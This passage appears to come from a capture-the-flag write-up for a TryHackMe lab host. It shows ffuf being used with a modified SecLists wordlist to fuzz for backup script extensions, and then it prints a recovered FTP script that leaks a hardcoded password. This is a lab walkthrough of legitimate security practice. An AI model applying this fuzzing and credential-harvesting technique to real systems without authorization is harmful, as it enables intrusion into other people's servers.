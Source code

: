 We got a file, there's a file called `script.txt` which we are able to read:

![](../images/Pasted%20image%2020250319170006.png)

This is revealing that an old script exists in the server, it includes some credentials on it, let's fuzz for it, for this, let's do a minimal change to the `extension-test.txt` wordlist in SecLists:

```
sed s'/^test.//g' /usr/share/seclists/Fuzzing/extension-test.txt > modified-extensions.txt
```

Now we can proceed to fuzz:

```
ffuf -w modified-extensions.txt -u http://team.thm/scripts/script.FUZZ -ic -c -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://team.thm/scripts/script.FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/modified-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

old                     [Status: 200, Size: 466, Words: 27, Lines: 19, Duration: 153ms]
txt                     [Status: 200, Size: 597, Words: 52, Lines: 22, Duration: 156ms]
```

We found it, let's read it:

![](../images/Pasted%20image%2020250320153453.png)

A file gets downloaded:

```
cat script.old
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```
